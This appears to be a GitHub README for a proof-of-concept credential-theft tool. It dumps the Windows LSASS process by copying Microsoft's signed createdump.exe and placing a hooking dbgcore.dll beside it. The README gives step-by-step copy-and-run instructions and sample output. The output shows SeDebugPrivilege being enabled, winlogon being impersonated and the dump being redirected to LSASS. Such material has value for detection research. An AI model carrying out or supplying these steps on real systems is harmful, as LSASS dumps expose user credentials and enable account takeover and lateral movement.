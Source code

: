 # Windows App LSASS Dump - Proof of Concept

This project demonstrates how to dump the LSASS process using the `createdump.exe` tool from WindowsApps, leveraging a custom hook to enable process access.

## How to Use

1. **Copy createdump from WindowsApp folder to a folder of choice (`copy C:\Program Files\WindowsApps\MicrosoftCorporationII.Windows365_2.0.285.0_x64__8wekyb3d8bbwe\wnc\createdump.exe .`)**
2. **place `dbgcore.dll` from this repo in the same folder**
3. **execute createdump (optionally provide parameters)**

Output should be something like this:
```
c:\work\_createdump>createdump.exe
WindowsApp PoC by Remko Weijnen
(ab)uses createdump tool from "The WindowsApp" to create an LSASS dump

Successfully hooked OpenProcess
OpenProcess called
Attempting to enable SeDebugPrivilege...
SeDebugPrivilege successfully enabled!
Attempting to impersonate winlogon...
Successfully impersonated winlogon
[createdump] Writing minidump with heap for process 35828 to file C:\Users\me\AppData\Local\Temp\dump.35828.dmp
MiniDumpWriteDump called with:
  ProcessId: 35828
  hProcess: 0x0000000000000184
  hFile: 0x00000000000001BC
  DumpType: 0x41a25
ProcessId changed to LSASS (PID: 1512)
Loaded DbgHelp.dll from: C:\Windows\System32\DbgCore.dll
Calling original with:
  ProcessId: 1512
  hProcess: 0x0000000000000184
  hFile: 0x00000000000001BC
  DumpType: 0x41026
MiniDumpWriteDump result: Success
[createdump] Dump successfully written in 270ms
DLL unloading, hooks removed.
```
